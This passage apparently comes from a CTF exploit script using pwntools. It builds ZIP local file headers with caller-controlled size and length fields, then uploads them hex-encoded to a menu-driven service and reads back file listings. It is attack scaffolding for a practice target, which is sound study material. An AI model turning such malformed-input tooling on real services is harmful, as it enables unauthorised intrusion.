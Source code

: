 ```py
    compression: int # word
    mod_time: int # word
    mod_date: int # word
    crc32: int # dword
    compressed_size: int # dword
    uncompressed_size: int # dword
    file_name_len: int # word
    extra_field_len: int # word
    file_name: bytes
    content: bytes

    def __bytes__(self):
        return flat(
            self.signature,
            p16(self.version),
            p16(self.flags),
            p16(self.compression),
            p16(self.mod_time),
            p16(self.mod_date),
            p32(self.crc32),
            p32(self.compressed_size),
            p32(self.uncompressed_size),
            p16(self.file_name_len),
            p16(self.extra_field_len),
            self.file_name,
            self.content,
        )


def create_zip(io, data: dict) -> Zip:
    return Zip(
        "PK\x03\x04",
        0,
        0,
        0,
        0,
        0,
        0,
        data.get("compressed_size", len(data["content"])),
        data.get("uncompressed_size", len(data["content"])),
        data.get("file_name_len", len(data["file_name"])),
        data.get("extra_field_len", 0),
        data["file_name"],
        data["content"],
    )


def upload_file(io, user: int, data: dict):
    io.clean()
    io.sendline(b"4")
    io.clean()
    io.sendline(str(user).encode())
    io.clean()
    io.sendline(bytes(create_zip(io, data)).hex())
    io.clean()


def read_files(io, user: int) -> bytes:
    io.clean()
    io.sendline(b"2")
    io.clean()
    io.sendline(str(user).encode())
    return [line.split(b" ") for line in io.clean().split(b"\n") if line.startswith(b"[FID")]
```